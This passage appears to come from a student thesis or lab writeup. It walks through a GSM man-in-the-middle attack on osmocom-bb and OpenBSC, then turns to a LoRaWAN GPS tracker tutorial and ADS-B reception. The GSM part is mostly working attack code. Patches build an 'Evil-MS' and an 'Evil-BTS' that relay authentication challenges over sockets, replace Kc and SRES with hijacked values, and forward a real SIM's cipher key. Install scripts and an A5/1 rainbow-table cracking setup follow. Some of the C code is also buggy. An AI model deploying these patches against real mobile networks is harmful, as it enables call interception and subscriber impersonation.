   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b></br></br>";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig


   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash


   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----

**Lora :**
--------------

**GPS tracker via LoraWAN**
-------------------------------


.. image:: uml.png
   :target: uml.png
   :alt: UML


ISO : https://drive.google.com/file/d/1YTdmb8JlvePSKiniwBKYyqXx-m-NhzIe/view?usp=sharing

**Installation du routeur sur Internet (via WiFi)**

N.B. : Pourquoi via WiFi ? Dans le cas particulier de l'Université de Perpignan Via Domitia, le FireWall "n'aime" pas les connections sur le port 1700 nécessaire à l'établissement de la connection routeur -> TheThingsNetwork.


* Plug on sector the gateway with USB-C 5V-2A
  a WiFi network dragino-XXXXXX apparait. 
* Connect to it via the password "dragino+dragino"
* Go on the webbrowser on IP 10.130.1.1 an Id/Pwd is asked by the dragino (by default) "root" / "dragino"
* Connect via the WiFi Mesh the dragino as a client to your smartphone or your box for example


.. image:: WiFi_Dragino.png
   :target: WiFi_Dragino.png
   :alt: WiFi_Dragino


**Routage des paquets LoRa vers TheThingsNetwork**


* Create a thethingsnetwork account (free, need email)
* We can see the Gateway EUI on the LoRa tab of the network interface
* We have to choose now TheThingsNetwork v3 on the defilant menu beside (the thingsnetwork v is avaible but not deserved for new gateways on TTN)
* On the second defilant menu choose eu1.cloud.thethings.network


.. image:: config_gw_ttn.png
   :target: config_gw_ttn.png
   :alt: config_gw_ttn

On thethingsnetwork :

Fill the Gateway EUI same as precedent configuration on the dragino. Le GatewayID is free but must be unique and available on TTN. The gateway name is totally free of choice.
Enfin les Gateway Server Address doit correspondre au précedent soit pour l'Europe :
eu1.cloud.thethings.network

The last option can be let as it is.

You have now your gateway connected to LoRaWAN


.. image:: config_ttn_gw.png
   :target: config_ttn_gw.png
   :alt: config_ttn_gw


**Preparation of the RaspberryPi (the connected object) :**
A raspberry is a minicomputer of the height approximatively of a Bank card with the power of a smartphone et a I/O electrical pinout. The Operationnal System of this hardware is often (and in this study) on a micro-SD card (it can be Netboot, USB/HDD, eMMC). We gonna greate the SD card with this methodology :

**The SD-Card :**

Download Raspi-Imager from
https://www.raspberrypi.com/software/

To install it on Ubuntu > 20.04 you just have to do (Ctrl-Alt-t) and type

.. code-block:: bash

   sudo snap install rpi-imager

Then we download the Debian Bullseye OS


.. image:: choose_os.png
   :target: choose_os.png
   :alt: choose_os


we select the following options
ssh : username/password (advice : "pi"/"raspberry")
Wifi : from the phone or any you have available
optional : set hostname = raspberry.local


.. image:: options_sd_rpi.png
   :target: options_sd_rpi.png
   :alt: options_sd_rpi


We the the media that will be written on
Then we put the SD-Card on the raspberry and monitor it via HDMI. Or if you don't have HDMI hardware you can access through SSH. For example if the local network is 192.168.1.0/24 you can do (on the host)

.. code-block:: bash

   nmap 192.168.1.1-254 -p 22

to know RPi IP adress or you can try

.. code-block:: bash

   sudo arp -a

Then to spawn a shell on the RPi

.. code-block:: bash

   ssh pi@ip_found_previously

or

.. code-block:: bash

   ssh pi@raspberrypi.local

Then on the shell

.. code-block:: bash

   sudo apt update && sudo apt upgrade

Now we install necessary packages

.. code-block:: bash

   sudo apt install git device-tree-compiler git python3-crypto python3-nmea2 python3-rpi.gpio python3-serial python3-spidev python3-configobj gpsd libgps-dev gpsd-clients python3-pip
   pip3 install simplecayennelpp
   git clone https://github.com/bbaranoff/libgps
   cd libgps
   make 
   sudo make install
   sudo ldconfig
   nano /etc/default/gpsd

.. code-block::

   # Default settings for the gpsd init script and the hotplug wrapper.

   # Start the gpsd daemon automatically at boot time
   START_DAEMON="true"

   # Use USB hotplugging to add new USB devices automatically to the daemon
   USBAUTO="false"

   # Devices gpsd should collect to at boot time.
   # They need to be read/writeable, either by user gpsd or the group dialout.
   DEVICES="/dev/ttyAMA0"

   # Other options you want to pass to gpsd
   GPSD_OPTIONS="-n"

Now we add to /boot/config.txt those lines at the end

.. code-block::

   enable_uart=1
   dtoverlay=miniuart-bt
   dtoverlay=spi-gpio-cs

We modify /boot/cmdline.txt to make it looks like

.. code-block::

   dwc_otg.lpm_enable=0 console=tty1 root=/dev/mmcblk0p2 rootfstype=ext4 elevator=deadline fsck.repair=yes rootwait

Then /home/pi

.. code-block:: bash

   git clone https://github.com/computenodes/dragino
   cd dragino/overlay
   dtc -@ -I dts -O dtb -o spi-gpio-cs.dtbo spi-gpio-cs-overlay.dts
   sudo cp spi-gpio-cs.dtbo /boot/overlays/
   sudo reboot

Then in /home/pi we create gpscron like :

.. code-block:: bash

   #!/bin/bash
   sudo python3 /home/pi/dragino/test_cayenne.py

It will be called par cron. (Advice ! Set ``sudo chmod 644 gpscorn`` to avoid privilege escalation)

Then we write in /home/pi/dragino : test_cayenne.py like

.. code-block:: python

   #!/usr/bin/env python3
   """
       Test harness for dragino module - sends hello world out over LoRaWAN 5 times
   """
   import logging
   from datetime import datetime
   from time import sleep
   import RPi.GPIO as GPIO
   from dragino import Dragino
   #import subprocess
   import gpsd
   from simplecayennelpp import CayenneLPP # import the module required to pack th$
   import binascii
   # importing the module
   # Connect to the local gpsd
   gpsd.connect()
   packet = gpsd.get_current()
   # See the inline docs for GpsResponse for the available data
   print(packet.position())
   lat = packet.lat
   lon = packet.lon
   alt = packet.alt

   print (lat, lon, alt)
   lpp = CayenneLPP()
   lpp.addGPS( 1, lat, lon, alt)
   text=binascii.hexlify(lpp.getBuffer()).decode()
   sent=list(binascii.unhexlify(text))
   print(text)
   logLevel=logging.DEBUG
   logging.basicConfig(filename="test.log", format='%(asctime)s - %(funcName)s - %(lineno)d - %(levelname)s - %(message)s', level=logLevel)
   D = Dragino("/home/pi/dragino/dragino.ini", logging_level=logLevel)
   D.join()
   while not D.registered():
       print("Waiting for JOIN ACCEPT")
       sleep(2)
   for i in range(0, 2):
       D.send_bytes(sent)
       start = datetime.utcnow()
       while D.transmitting:
           pass
       end = datetime.utcnow()
       print("Sent GPS coordinates ({})".format(end-start))
       sleep(1)

We take now /home/pi/dragino/dragino.ini.default to rewrite it to /home/pi/dragino/dragino.ini like

.. code-block::

   gps_baud_rate = 9600
   gps_serial_port = /dev/ttyS0
   gps_serial_timeout = 1
   gps_wait_period = 10

   #LoRaWAN configuration
   spreading_factor = 7
   max_power = 0x0F
   output_power = 0x0E
   sync_word = 0x34
   rx_crc = True
   #Where to store the frame count
   fcount_filename = .lora_fcount

   ##Valid auth modes are ABP or OTAA
   ##All values are hex arrays eg devaddr = 0x01, 0x02, 0x03, 0x04
   #auth_mode = "abp"
   #devaddr = 
   #nwskey = 
   #appskey =

   auth_mode = otaa
   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7

By choosing DevEUI, AppEUI (unique on TTN), and AppKey with enough entropy that it can't be cracked (beware of MSB, LSB writing between dragin_cayenne.py and TTN)
Enfin pour executer le script python toutes les minutes :

.. code-block:: bash

   sudo crontab -e

We select our favorite editor to add

.. code-block::

   * * * * * /home/pi/gpscron

at the endfile.
For the raspberry we are now ready to go. Lets see from the network side

**LoraWan Conection (TheThingsNetwork)**

Go to application -> Create then in EndDevices -> + Add Endevice


.. image:: add_enddevice.png
   :target: add_enddevice.png
   :alt: add_enddevice


Then with previous parameters set on the RPi (AppEUI, DevEUI, AppKey)  in /home/pi/dragino/dragino.ini we put them on TTN

So in this study example :

.. code-block::

   deveui = 0xFF, 0xFE, 0xFD, 0xFC, 0xFC, 0xFD, 0xFE, 0xFF
   appeui = 0x70, 0xB3, 0xD5, 0x00, 0x00, 0xD5, 0xB3, 0x70
   appkey = 0x3D, 0x83, 0xC3, 0x16, 0x2C, 0xAD, 0x44, 0xB7, 0xB0, 0x50, 0x6C, 0x3C, 0xA1, 0x54, 0x36, 0xB7


.. image:: register_enddevice.png
   :target: register_enddevice.png
   :alt: register_enddevice


Power On the Pi (Trick to make GPS work (on RPi) !!!!!)

Sur le shell du pi :

.. code-block:: bash

   sudo ntpdate fr.pool.ntp.org

Put the RPi outside
Pull off the Tx Jumper of the dragino and wait for 3D Fix (the green blinking light of the dragino). Then hotplug the jumper Tx.

You should have (your first ?) connected object

**Payload Format**

In this study we have choose the CayenneLPP format like 


.. image:: format_cayenne.png
   :target: format_cayenne.png
   :alt: format_cayenne


In the created application you should see your device


.. image:: coordonnees_ttn.png
   :target: coordonnees_ttn.png
   :alt: coordonnees_ttn


**Data monitoring (Cayenne Integration)**

Go to https://mydevices.com/

Create a Cayenne Account

Select TheThingsNetwork


.. image:: add_new_cayenne.png
   :target: add_new_cayenne.png
   :alt: add_new_cayenne


Sélection Dragino RPi Hat et mettre le DevEUI


.. image:: dragino_cayenne.png
   :target: dragino_cayenne.png
   :alt: dragino_cayenne



.. image:: gps_live.png
   :target: gps_live.png
   :alt: gps_live

Live Data from GPS tracker !

\newpage

**ADSB**
------------

Automatic Dependent Surveillance Broadcast (ADS-B)

Definition

A means by which aircraft, aerodrome vehicles and other objects can automatically transmit and/or receive data such as identification, position and additional data, as appropriate, in a broadcast mode via a data link.

https://github.com/antirez/dump1090

To run the program in interactive mode, with networking support, and connect with your browser to http://localhost:8080 to see live traffic:

./dump1090 --interactive --net


.. image:: avion.png
   :target: avion.png
   :alt: avion


\newpage

**Appendix**
----------------

Redirection Attack Code

``` {r, eval=FALSE}

!/bin/bash
==========

git clone git://git.code.sf.net/p/openlte/code openlte-code
cd openlte-code
git checkout a5a66e

.. code-block::


   ``` {r, eval=FALSE, diff}

\newpage

**Bibliograpy**
-------------------

----

nocite: '@*'
------------
